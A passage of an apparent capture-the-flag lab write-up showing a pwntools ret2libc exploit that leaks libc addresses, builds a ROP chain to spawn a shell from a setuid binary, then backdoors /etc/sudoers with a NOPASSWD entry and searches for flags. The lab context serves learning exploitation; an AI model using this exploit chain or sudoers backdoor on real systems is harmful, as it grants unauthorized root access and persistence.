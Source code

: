 ```python
payload += pop_rdi_ret_address + got_setuid_address + plt_puts_address
payload += main_address

p = ssh_connection.process("/exploit_me")
p.recvline()
p.sendline(payload)
output = p.recv().split(b"\n")

puts_address = u64(output[0].ljust(8, b"\x00"))
gets_address = u64(output[1].ljust(8, b"\x00"))
setuid_address = u64(output[2].ljust(8, b"\x00"))

print(f"Puts address: {hex(puts_address)}")
print(f"Gets address: {hex(gets_address)}")
print(f"Setuid address: {hex(setuid_address)}")

libc = ELF("./libc6_2.23-0ubuntu11.3_amd64.so", checksec=False)
libc.address = puts_address - libc.sym["puts"]
print(f"libc Base address: {hex(libc.address)}")

bin_sh_address = p64(next(libc.search(b"/bin/sh")))
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
alignment_issue_ret_address = p64(_ROP.find_gadget(["ret"])[0])
system_address = p64(libc.symbols.system)

payload = padding
payload += alignment_issue_ret_address
payload += pop_rdi_ret_address
payload += bin_sh_address
payload += system_address

p.sendline(payload)
p.interactive()
```

We get the following:


![](../images/Pasted%20image%2020250328191503.png)

There we go, we can add `zeeshan` to `sudoers` to move easily using ssh:

```
echo "zeeshan ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

And then:

```
sudo su
```

![](../images/Pasted%20image%2020250328191705.png)
```
find / -type f \( -path /proc -o -path /sys -o -path /dev \) -prune -o -name "*.txt" -exec grep -H 'THM{\{' {} \; 2>/dev/null
```
Now, we can read all flags:
